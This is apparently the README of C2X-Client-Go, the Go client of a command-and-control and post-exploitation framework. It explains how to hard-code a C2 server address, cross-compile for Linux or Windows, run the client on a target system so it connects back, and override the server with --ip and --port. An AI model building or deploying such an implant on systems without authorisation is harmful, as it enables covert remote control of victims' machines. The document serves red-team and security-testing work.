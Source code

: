 # C2X-Client-Go

[![Tool Category](https://badgen.net/badge/Tool/C2%20Client/black)](https://github.com/nxenon/c2x-client-go)
[![APP Version](https://badgen.net/badge/Version/Beta/red)](https://github.com/nxenon/c2x-client-go)
[![Go Version](https://badgen.net/badge/Go/1.13/blue)](https://golang.org/doc/go1.13)
[![License](https://badgen.net/badge/License/GPLv2/purple)](https://github.com/nxenon/c2x-client-go/blob/master/LICENSE)

C2x-Client-Go is client of [C2X](https://github.com/nxenon/c2x) (C2/Post Exploitation) project in Go language.

Installation & Building
----
    You have to first install Go version 1.13
    Run:
    git clone https://github.com/nxenon/c2x-client-go.git
    cd c2x-client-go
    edit c2x-client.go and put the server IP and Port in lines 20 and 21
    if you want the client to run in
    Linux :
    GOOS=linux go build c2x-client.go
    Windows :
    GOOS=windows go build c2x-client.go
    now you have c2x-client compiled.
    run it in target system and wait to connect to c2x server

Run
----
- If you have replaced the ip and port in source code and then compiled you can run the code without any argument.
    - ./c2x-client
- If you didn't replace the ip and port, or you want to connect to different server or port you can use arguments.
    - ./c2x-client --ip 127.0.0.1 --port 54321
    
- Optional Arguments
    - --ip Remote_IP
    - --port Remote_Port
